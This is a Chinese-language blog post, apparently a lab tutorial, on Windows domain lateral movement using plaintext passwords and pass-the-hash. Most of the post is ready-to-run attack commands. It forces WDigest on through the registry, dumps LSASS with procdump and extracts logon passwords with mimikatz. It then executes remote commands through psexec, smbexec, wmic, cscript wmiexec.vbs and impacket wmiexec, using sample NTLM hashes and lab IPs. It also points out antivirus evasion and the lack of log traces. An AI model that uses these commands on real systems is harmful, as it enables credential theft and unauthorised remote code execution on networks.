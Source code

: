 ```yaml
---
layout: post
title: "内网渗透-smb&wmi明文&hash传递"
date: "2023-01-07T05:14:06.851Z"
---
```

内网渗透-smb&wmi明文&hash传递
=====================

首先我们要知道，在windows2012以上版本默认会关闭wdigest，那么攻击者就无法从内存中获取明文密码了

windows2012以下的版本如果安装了KB2871997补丁，那么同样也会导致无法从内存中获取明文密码

windows系统LM Hash以及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在winserver2003之后，认证方式均为NTLM Hash

针对以上的情况，有四种方式可以解决：

1、利用哈希传递（pth，ptk等）进行移动

2、利用其他的服务协议（smb，wmi等）进行哈希移动

3、利用注册表操作开启Wdigest Auth值进行获取

reg add
HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f

4、利用工具或者第三方平台（hashcat）进行破解获取

（1）Procdump+Mimikatz 配合获取

因为Procdump是微软官方的一个程序，所以不会被杀软给识别，那么就可以使用procdump备份密码然后到本地使用minikatz进行读取

Procdump上执行：procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz 上执行： sekurlsa::minidump lsass.dmp

　　　　　　　　  sekurlsa::logonPasswords full

 如果拿到了hash值，那么就可以使用hashcat去破解

（2）域横向移动SMB服务利用-psexec，smbexec（官方自带）

利用SMB服务可以通过明文或者hash传递来远程执行，条件是445服务端口开放

1）psexec的使用

1.先建立IPC回话，然后使用SMB服务

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201652523-1256473322.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201757980-1398161473.png)

 2.直接使用明文连接不需要IPC连接

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202005320-1960398768.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202023428-1152560980.png)

 （3）如果没有明文密码，但是拿到了密码的hash值，也可以通过pstool进行连接，但是需要使用的是impacket中的psexec，因为是第三方开发的工具，所以可能会被杀软识别，因此只能看情况去使用

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202552952-82039936.png)

 2）smbexec的使用

smbexec无需建立ipc的连接，可以使用明文或者hash的传递，但是smbexec是第三方软件同样需要先做免杀才可以，以下是一些使用方法的示例

smbexec god/administrator:Admin12345@192.168.3.21　　连接god域中的administrator用户

smbexec ./administrator:admin!@#45@192.168.3.32　　　 连接本地的administrator用户

hash方法的话需要在minikatz中找到对应用户的密码hash值的NTLM或者LM值，具体使用哪个得看操作系统的版本。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106203913331-576896792.png)

 然后在使用以下的命令

smbexec -hashes :$HASH$ ./admin@192.168.3.21

smbbexec -hashes :$HASH$ domain/admin@192.168.3.21

smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

（3）域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带WMIC　　只能进行明文传递　　无回显

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\\1.txt"

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205009189-196008115.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205023015-1817583004.png)

自带 cscript 　　只能进行明文传递 　　有回显　　但是需要借助一个叫做wmiexec.vbs的文件进行操作![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205202287-1794763031.png)

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205227167-1600059684.png)

套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"　　本地主机账户

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"　　域账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205352100-1485594123.png)

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"　　本地主机账户

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"　　域主机账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205444975-293601675.png)

 所以综上所述：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205812720-2112335278.png)